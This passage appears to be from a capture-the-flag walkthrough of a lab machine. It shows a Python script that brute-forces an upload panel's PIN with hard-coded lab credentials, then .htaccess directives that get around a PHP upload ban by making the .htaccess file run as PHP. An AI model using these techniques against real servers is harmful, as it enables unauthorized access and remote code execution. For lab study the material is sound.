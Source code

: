 Here's my bruteforce script:

{{< highlight python >}}
import sys
import requests
import itertools

user = 'devnull'
passwd = 'j4tC1P9aqmY'

base_url = 'http://signal8.darknet.com/xpanel/'

login_url = base_url + 'index.php'
payload = {'username': user, 'password': passwd}

sess = requests.session()

r = sess.post(login_url, data=payload)

ploy_url = base_url + 'ploy.php'

for attempt in itertools.permutations(["37","58","22","12","72","10","59","17","99"], 4):
    payload = {'Action':'Upload',
               'checkbox[]': attempt

              }

    files = {'imag':('info.txt', open('info.php', 'rb')}

    r = sess.post(ploy_url, data=payload, files=files)

    if r.text.find('Key incorrecta!') == -1:
        print 'Found pin: ', attempt
        sys.exit(0)
{{< / highlight >}}

The correct PIN is `'37', '10', '59', '17'`. I tried to upload a PHP script, but
that won't work. Seems uploading anything with a `php` extension is forbidden.
Casting my mind back I noticed that in the apache config I noticed something interesting.
For this site `AllowOverride All` is on. Most likely going to be something to 
do with `.htaccess`. To check this I upload the following file, and then browse to a
non-existant file, to generate a 404

{{< highlight text >}}
Order deny,allow
Allow from all
ErrorDocument 404 https://google.com

{{< / highlight >}}

This should direct me to `google.com`, which it does, indicating `.htaccess` overrides work here.
So what can I do from here that will either allow me to upload a PHP shell or do something else?

Unfortunately there's another issue: as I upload files, old files seem to get deleted. 
I found this out when the 404 redirect stopped working after uploading an html file.

Luckily I discovered that it's possible to execute php code inside the .htaccess file.

{{< highlight text >}}
AddHandler application/x-httpd-php .htaccess                                    
DirectoryIndex .htaccess                                                        
<FilesMatch "^\.htaccess">                                                      
Order deny,allow                                                                
Allow from all                                                                  
SetHandler application/x-httpd-php                                              
</FilesMatch>                                                                   
                                                                                
